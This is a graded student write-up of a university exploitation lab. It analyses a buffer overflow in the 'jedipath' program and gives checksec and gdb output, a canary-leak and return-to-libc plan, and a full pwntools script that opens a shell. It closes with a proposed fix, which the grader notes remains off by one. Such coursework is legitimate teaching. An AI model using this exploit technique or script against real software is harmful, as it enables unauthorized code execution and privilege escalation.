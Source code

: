 **Name:** flofriday

**Points:** 0.9 of 1.0 Points

**Feedback:** The solution is incomplete, with the patch an attacker can still write up to 64 bytes into guess, such that `guess` no longer contains a null terminator (note the <= comparison and that c-strings are 0-indexed). Thus, the `printf` can still print past the end of `guess`.

**Notes:** Baby yoda ☺️

<hr>

# jediPATH

## Overview

The program `jedipath` asks a padawan to guess a secret number, this happens three times (with three different numbers). If the user guesses correctly it will print the SHA256 hash of the file `/challenges/jedipath/flag`.

## Vulnerability

The vulnerability is a bufferoverflow in the lines `17` to `22` (linenumbers from `jedipath_partial.c`):

```c
 17         while (guess_len <= MAX_P_LEN) {
 18             guess[guess_len] = getchar();
 19             if (guess[guess_len] == '\n')
 20                 break;
 21             guess_len++;
 22         }
```

Here, the code copies up to`MAX_P_LEN` many bytes, which I figured out to be `96`, into the buffer `guess` which is only `64` bytes large, and thereby allowing an attacker to overwrite memory on the stack.

## Exploitation

During the development of this exploit I was on a call with █████ and later on another call with █████. On those calls we discussed the problems, possible strategies but never shared code or flags.

The first step is to copy all relevant files into our own home folder so that we can modify them and attach debugers to binaries.

```bash
mkdir $HOME/jedipath
cd jedipath
cp /challenges/jedipath/* .
```

Since this is a binaryexploitation challenge, I asumed the vulnerbility can be triggered with a buffer overflow, so my first attempt was to write an unlikly amount of data to the program:

```bash
$ (python3 -c "print('A' * 1024)" ; cat) | ./jedipath
[1] Read my mind... *** stack smashing detected ***: <unknown> terminated
```

"stack smashing detected" so we definitly did *something* unexpected. After some searching and reading this [amazing article]([Stack Canaries - CTF 101](https://ctf101.org/binary-exploitation/stack-canaries/)) about canary on Linux, I knew that I triggered a buffer overflow, overwrote the canary/stack-cookie and when the function was about to return it compared the cookie, detected the changes and exited with an error.

Before jumping in and trying to write an exploit, I wanted to test the binary further with the tools `checksec` and `ldd`:

```bash
$ checksec jedipath
[*] '/home/stud51/jedipath/jedipath'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$ ldd jedipath
    linux-gate.so.1 (0xf7fd4000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7de9000)
    /lib/ld-linux.so.2 (0xf7fd6000)
```

With that I knew that jumping to shell-code is impossible because of the NX protection, and that indeed the stack smashing warning was from the canary. However, there is no ASLR and `libc` is dynamically linked.

After reading the source code in `jedipath_partial.c` I started to build an abstract mental model of how the exploit might work:

1) In the first iteration of the Loop starting at line `8` I can overwrite the first byte of the stack cookie so that the `printf` in line `27` leaks the three random bytes of it.

2) In the second iteration it is now possible to overwrite the canary with the original value so that no stacksmashing will be detected when the function returns. Moreover, we can now overwrite the return address and jump to the `system` function of `libc` and drop a shell with elevated privileges and print the flag.

To jump to `system` we need to know the address of the function and also find a string containing `/bin/sh`, both can be found in `gdb` with the following commands:

```gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0x8048600 <system@plt>
(gdb) info proc map
...
 0xf7de9000 0xf7fbe000   0x1d5000        0x0 /lib/i386-linux-gnu/libc-2.27.so
...
(gdb) find 0xf7de9000, 0xf7fbe000, "/bin/sh"
0xf7f670af
1 pattern found.
```

Next, by inspecting the stack with `gdb` we can figure out the padding between canary and the saved eip, so that we can create the following criteria for the three payloads:

- **First Payload**: any 64 bytes followed by a newline (`\n`).

- **Second Payload**: just a newline(`\n`).

- **Third Payload**: 
  
  - bytes 01-64: Padding (any byte)
  
  - bytes 65-68: a zero byte followed by the three canary bytes leaked from the first payload.
  
  - bytes 69-80: Padding (any byte)
  
  - bytes 81-84: the address of system function.
  
  - bytes 85-88: Padding (any byte). (Reason for this padding is explained on Tuwel  in this [Forum post](https://tuwel.tuwien.ac.at/mod/forum/discuss.php?d=245140))
  
  - bytes 89-92: the address of the `/bin/bash` string.
  
  - byte 93: a newline(`\n`).

- **Note:** Since the program stops reading an answer after an newline, the payloads can only contain a newline at the end. This means that if the canary has a newline, we cannot exploit the program and we need to start over.

I automated the exploit with a python script, saved in `expl.py`:

```python
import sys
import re
from pwn import * 

system_addr = p32(0xf7e262e0)
shell_addr = p32(0xf7f670af)

def main():
    print('''
 ________________________________
< The path to a shell you are on >
 --------------------------------
     \      
      \        .
       __.-._ //
       '-._.7//
        /'.-K/
        |  /T
       _)_/LI
 --------------------------------
''')

    # Leak the canray
    p = process(sys.argv[1])
    payload1 = b'A' * 64 + b'\n\n'
    p.send(payload1)
    data = p.recvuntil(b'[2]')
    match = re.search(b'AAA\n(.*)[2]',  data)
    canary = b'\0' + match.groups()[0]
    canary = canary[:4] # The canary is only 32 bits

    if b'\n' in canary:
        print('ERROR: canaray contains newline, just try again.')
        sys.exit(1)

    # Return to libc
    padding1 = b'A'*(64)
    padding2 = b'A' * 12
    padding3 = b'A' * 4
    payload2 = padding1 +  canary + padding2 + system_addr + padding3 + shell_addr + b'\n'
    p.send(payload2)
    print('-' * 14 + ' SHELL ' + '-' * 14)

    # Drop to interactiv so we can interact with the spawned shell
    p.recvline()
    p.interactive()

if __name__ == '__main__':
    main()
```

Finally, we can run the exploit with `python3 expl.py /challenges/jedipath/jedipath` and then read the flag with `cat /challenges/jedipath/flag`.

## Solution

Since I don't have access to the original source code `jedipath.c` (even with the exploit), I cannot provide any line numbers. 

The macro `MAX_P_LEN` (asuming it is a macro, it might also be just a global variable) should be changed to `63` which will fix the bufferoverflow and thereby fixes all vulnerabilities that arise from it.

